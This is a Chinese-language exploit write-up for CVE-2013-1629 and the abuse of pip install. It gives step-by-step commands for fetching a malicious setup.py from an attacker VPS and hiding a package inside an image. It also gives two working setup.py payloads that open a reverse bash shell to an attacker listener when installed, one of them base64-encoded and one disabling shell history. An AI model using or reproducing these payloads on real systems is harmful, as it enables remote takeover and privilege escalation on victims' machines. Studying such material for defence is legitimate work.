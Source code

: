 # Python pip install RCE 漏洞 CVE-2013-1629

## 漏洞描述

当通过 HTTP 从 Pypi 存储库检索包时，不会检查包内容的完整性。利用这个缺陷，攻击者可以通过 `pip install` 来执行代码。

参考阅读：

- https://github.com/0x00-0x00/FakePip
- https://www.sourceclear.com/vulnerability-database/security/remote-code-execution-rce-using-pip/python/sid-2098

## 漏洞影响

```
pip < 1.3
```

## 漏洞复现

### 方式1 FakePip

将 [setup.py](#漏洞POC) 文件下载到远程目标：

```
$ wget http://your-vps-ip/setup.py
```

在 VPS 上监听端口，在远程目标上执行命令：

```
$ mkdir fakepip
$ mv setup.py fakepip/
$ cd fakepip
# sudo /usr/bin/pip install . --upgrade --force-reinstall
```

成功获取反弹 Shell。

### 方式2 图片马

将 [setup.py](#漏洞POC) 文件放在文件夹中并压缩命名为，选择一张图片 test.png，制作图片马：

```
$ copy /b test.png + pic.zip pic.png
```

在 VPS 上监听端口，将图片上传至公网图床，复制链接，在远程目标上执行命令：

```
$ pip install " https://<your-img-link>"
```

也将图片可以上传到 VPS，在远程目标上执行命令：

```
$ pip3 install "http://192"."168"."xx"."xxx/pic.png"
```

## 漏洞POC

方式1 setup.py

```python
from setuptools import setup
from setuptools.command.install import install
import base64
import os


class CustomInstall(install):
  def run(self):
    install.run(self)
    LHOST = 'localhost'  # change this
    LPORT = 13372
    
    reverse_shell = 'python -c "import os; import pty; import socket; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\'{LHOST}\', {LPORT})); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); os.putenv(\'HISTFILE\', \'/dev/null\'); pty.spawn(\'/bin/bash\'); s.close();"'.format(LHOST=LHOST,LPORT=LPORT)
    encoded = base64.b64encode(reverse_shell)
    os.system('echo %s|base64 -d|bash' % encoded)


setup(name='FakePip',
      version='0.0.1',
      description='This will exploit a sudoer able to /usr/bin/pip install *',
      zip_safe=False,
      cmdclass={'install': CustomInstall})
```

方式2 setup.py

```python
from setuptools import setup
import socket,subprocess,os
def run():
  import socket, time,pty, os
  host='{LHOST}'
  port='{LPORT}'
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(10)
  s.connect((host,port))
  os.dup2(s.fileno(),0)
  os.dup2(s.fileno(),1)
  os.dup2(s.fileno(),2)
  os.putenv("HISTFILE",'/dev/null')
  pty.spawn("/bin/bash")
  s.close()
run()

setup(name="FakePip", version="1.0")
```

